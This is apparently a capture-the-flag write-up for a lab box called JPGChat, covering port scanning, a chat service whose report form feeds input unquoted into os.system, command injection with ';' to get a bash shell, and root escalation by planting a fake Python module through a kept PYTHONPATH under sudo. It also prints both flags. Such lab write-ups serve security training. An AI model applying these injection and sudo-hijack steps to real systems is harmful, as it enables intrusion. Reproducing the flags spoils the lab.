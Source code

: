 # JPGChat

* IP = 10.10.32.11

## Questions/Tasks:
* Let's start by scanning for open ports:
```bash
sudo nmap -sC -sV -sS $IP
```

### Nmap Scan results:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)
|   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)
|_  256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings:
|   GenericLines, NULL:
|     Welcome to JPChat
|     source code of this service can be found at our admin\'s github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
1 service unrecognized despite returning data.
```
* Trying to netcat to the service:
```bash
nc $IP 3000
```
![Screenshot](./assets/1.png)
* Nothing seems to be interesting in MESSAGE prompt
* Let's checkout the source code as it says:
* Source-code of the service:(Found in <a href="https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py">github</a>)
```python

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```
![Screenshot](./assets/2.png)
* Hmmm 🤔 the commands given are not directly put into quotes in the report_form function...maybe we could take advantage of it!!
* If we put a `;` after 1st command and try to execute some other command we can find out in local machine as well:
![Screenshot](./assets/3.png)
* Let's try it on the server:
![Screenshot](./assets/5.png)
![Screenshot](./assets/4.png)
* See? we get valid Remote Code Execution over the chat service...
* Next we try to setup a ncat listener with /bin/bash on the server, and try to connect directly.
![Screenshot](./assets/6.png)
![Screenshot](./assets/8.png)
![Screenshot](./assets/7.png)
* Now that we have got a shell, just navigate to */home/wes* and get the flag!
![Screenshot](./assets/9.png)

1. Establish a foothold and get user.txt

**Ans-JPC{487030410a543503cbb59ece16178318}**

* As the hint says we first check the permissions for sudo group by `sudo -l`
![Screenshot](./assets/10.png)
* As we can see the *test_module.py* can be run as root requiring no passwords
* Secondly, we can see that **env_keep+=PYTHONPATH** which means while running as sudo the environment variable PYTHONPATH is kept as usual
* The $PYTHONPATH is empty if we try to echo it
* Thirdly, the compare module is not a standard module for python.
* Keeping all the above points in mind we can modify the PYTHONPATH to /tmp directory and create our own compare module...
```bash
cd /tmp
touch compare.py
chmod +x compare.py
export PYTHONPATH=$PWD
```
* To spawn a root shell we can simply edit the compare.py to:
![Screenshot](./assets/12.png)
* Now run the test_module.py as sudo:
![Screenshot](./assets/13.png)
* Finally, navigate to /root and find the flag:

2. Escalate your privileges to root and read root.txt

**Ans-JPC{665b7f2e59cf44763e5a7f070b081b0a}**
